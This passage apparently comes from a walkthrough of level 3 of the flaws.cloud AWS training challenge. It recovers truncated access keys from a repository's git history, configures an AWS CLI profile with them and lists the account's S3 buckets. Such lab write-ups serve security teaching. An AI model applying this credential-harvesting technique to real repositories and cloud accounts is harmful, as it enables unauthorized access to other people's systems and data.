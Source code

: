 ```bash
~ git log
Commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have
```

An interesting file is mentioned at this revision. Let’s find out what this is about:

```bash
~ git show --pretty="" --name-only b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
access_keys.txt
```

The first commit shows the access keys being committed: 

```bash
~ git show --pretty="" --name-only f52ec03b227ea6094b04e43f475fb0126edb5a61
```

We can view the keys file at the previous revision:

```bash
~ git show f52ec03b227ea6094b04e43f475fb0126edb5a61:access_keys.txt
access_key AKIAJ3...
secret_access_key OdNa7m+bqU...
```

Or we could checkout the whole repo at that secific revision:

```bash
~ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
```

<div class="box-note">
The CLI command <a href="https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html">ls</a> lists S3 objects and common prefixes under a prefix or <i><b>all S3 buckets</b></i>
</div>

Create a new profile with the keys retrieved from the repository:

```bash
~ aws configure  --profile level-3
AWS Access Key ID [None]: AKIAJ3...
AWS Secret Access Key [None]: OdNa7m+bqU...
Default region name [None]:
Default output format [None]:
```

List all the buckets accessible to the profile:

```bash
~ aws s3 --profile level-3 ls
2017-02-12 21:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 17:34:53 config-bucket-975426262029
2017-02-12 20:03:24 flaws-logs
2017-02-05 03:40:07 flaws.cloud
2017-02-24 01:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 18:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 18:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 19:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 19:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 20:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```
